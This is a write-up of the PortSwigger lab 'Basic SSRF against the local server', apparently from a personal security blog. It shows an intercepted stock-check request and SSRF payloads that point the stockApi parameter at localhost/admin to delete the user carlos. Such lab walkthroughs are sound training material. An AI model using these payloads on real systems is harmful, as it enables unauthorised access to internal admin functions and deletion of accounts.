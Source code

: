 ```yaml
---
title: "SSRF: challange 1"
date: "2024-02-09"
thumbnail: "/assets/img/thumbnail/ssrf.png"
---
```


# Basic SSRF against the local server
---

Link: https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-localhost

This lab has a stock check feature which fetches data from an internal system.

To solve the lab, change the stock check URL to access the admin interface at http://localhost/admin and delete the user carlos.

### solution

- start the lab and remember the objective is to open `/admin` and delete the user carlos
- if u try going to `/admin` endpoint, you will n't get the result as u can't access it directly u will get this message `Admin interface only available if logged in as an administrator, or if requested from loopback`
- so let's go to products and click check stock as challange describtion said
- intercept this request

```
POST /product/stock HTTP/1.1
Host: 0a81005f047071e181a5de86001a00cb.web-security-academy.net
Cookie: session=CMThK0h99viMGTnCHS5TWoh3xgfVOzH5
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:122.0) Gecko/20100101 Firefox/122.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a81005f047071e181a5de86001a00cb.web-security-academy.net/product?productId=2
Content-Type: application/x-www-form-urlencoded
Content-Length: 107
Origin: https://0a81005f047071e181a5de86001a00cb.web-security-academy.net
Dnt: 1
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D2%26storeId%3D1
```
- notice that stockApi parameter has a url as a value, so let's try to change it to `http://localhost/admin` and the send the request
- Nice we got response with status code 200 OK
- when we look at the response body we see this

```html
<div>
    <span>wiener - </span>
    <a href="/admin/delete?username=wiener">Delete</a>
</div>
<div>
    <span>carlos - </span>
    <a href="/admin/delete?username=carlos">Delete</a>
</div>
```
- and that's what we exactly need
- send the previous request again but with stockApi parameter value = `http://localhost/admin/delete?username=carlos`
- Carlos is deleted
- Congratzzzzzzzzzzzzzzzzzzzzzzzzzzzz
